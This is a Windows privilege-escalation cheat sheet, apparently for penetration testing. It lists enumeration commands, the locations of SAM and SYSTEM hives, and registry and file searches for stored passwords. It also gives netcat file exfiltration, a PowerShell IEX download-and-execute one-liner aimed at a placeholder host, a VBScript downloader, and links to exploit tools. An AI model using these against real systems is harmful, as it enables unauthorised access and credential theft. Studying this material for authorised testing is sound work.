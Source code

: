 # A Cheat Sheet for Privilege Escalation in Windows

#### System architecture 
`system info` --- includes OS name, version and hotfixes installed. 

`wmic qfe` --- lists further details on hotfixes with links to relevant update notes from Windows.



#### Users & groups
`whoami` --- get current user.

`whoami /priv` --- display privileges for current user.

`net users` --- list users on current system.

`net localgroup` --- list groups on system.

`net localgroup Administrators` --- list users in the Administrators group. 

#### Locating stored credentials
`cmdkey /list` --- anything in Credential Manager?

`%SYSTEMROOT%\repair\SAM`

`%SYSTEMROOT%\System32\config\RegBack\SAM`

`%SYSTEMROOT%\System32\config\SAM`

`%SYSTEMROOT%\repair\system`

`%SYSTEMROOT%\System32\config\SYSTEM`

`%SYSTEMROOT%\System32\config\RegBack\system`



#### Programs, processes & services
`dir /a "C:\Program Files"`

`dir /a "C:\Program Files (x86)"`

`reg query HKEY_LOCAL_MACHINE\SOFTWARE`

###### Are there full permissions assigned to any of the program folders?
`icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "Everyone"`

`icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "Everyone"`

`icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users"`

`icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users"`

###### If supported, use accesschk.exe from SysInternals suite to look for world-writable folders and files:
`accesschk.exe -qwsu "Everyone" *`

`accesschk.exe -qwsu "Authenticated Users" *`

`accesschk.exe -qwsu "Users" *`

###### What processes are running?
`tasklist /svc`

`tasklist /v`

`net start`

`sc query`

###### Are there any schedules tasks? Look for non-standard tasks which can be exploited.
`schtasks /query /fo LIST 2>nul | findstr TaskName`

`dir C:\windows\tasks`

`Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State`




#### Network

###### What NICs are connected?
`ipconfig /all`

`Get-NetIPConfiguration | ft InterfaceAlias,InterfaceDescription,IPv4Address`

`Get-DnsClientServerAddress -AddressFamily IPv4 | ft`

###### Firewall settings
`netsh firewall show state`

`netsh firewall show config`

`netsh advfirewall firewall show rule name=all`

`netsh advfirewall export "firewall.txt"`




#### Sensitive files
`reg query HKCU /f password /t REG_SZ /s`

`reg query HKLM /f password /t REG_SZ /s `

###### Searching files which contain 'password'
`findstr /si password *.xml *.ini *.txt *.config 2>nul`

`Get-ChildItem C:\* -include *.xml,*.ini,*.txt,*.config -Recurse -ErrorAction SilentlyContinue | Select-String -Pattern "password"`




#### Transfering files
###### Using Netcat:
Set up listener on receiver:

`nc -nlvp <PORT> > outputname.txt`

Post file from sender:

`nc -nv <IP> <PORT> < inputfile.txt`

###### Powershell one-liners

`powershell "(New-Object System.Net.WebClient).Downloadfile('http://<IP><PORT>/<FILE_TO_DOWNLOAD>', '<FILENAME_TO_OUTPUT>')"`

`echo IEX(New-Object Net.WebClient).DownloadString('http://<IP><PORT>/<FILE_TO_DOWNLOAD>')`

###### VBScript to simulate Linux's wget command:

`echo strUrl = WScript.Arguments.Item(0) > wget.vbs`

`echo StrFile = WScript.Arguments.Item(1) >> wget.vbs`

`echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs`

`echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs`

`echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs`

`echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs`

`echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs`

`echo Err.Clear >> wget.vbs`

`echo Set http = Nothing >> wget.vbs`

`echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs`

`echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs`

`echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs`

`echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs`

`echo http.Open "GET", strURL, False >> wget.vbs`

`echo http.Send >> wget.vbs`

`echo varByteArray = http.ResponseBody >> wget.vbs`

`echo Set http = Nothing >> wget.vbs`

`echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs`

`echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs`

`echo strData = "" >> wget.vbs`

`echo strBuffer = "" >> wget.vbs`

`echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs`

`echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs`

`echo Next >> wget.vbs`

`echo ts.Close >> wget.vbs`




`cscript wget.vbs http://<IP>:<PORT>/<FILE_TO_DOWNLOAD> <FILENAME_TO_SAVE_AS>`


#### Enumeration scripts
PowerUp.ps1 --- https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1

window-exploit-suggester.py --- https://github.com/GDSSecurity/Windows-Exploit-Suggester

Sherlock.ps1 --- https://github.com/rasta-mouse/Sherlock

Watson --- https://github.com/rasta-mouse/Watson

Windows-privesc-check --- https://github.com/pentestmonkey/windows-privesc-check

JAWS --- https://github.com/411Hall/JAWS

SessionGopher.ps1 --- https://github.com/fireeye/SessionGopher




#### Pre-compiled Windows kernel exploits
https://github.com/SecWiki/windows-kernel-exploits

https://github.com/abatchy17/WindowsExploits

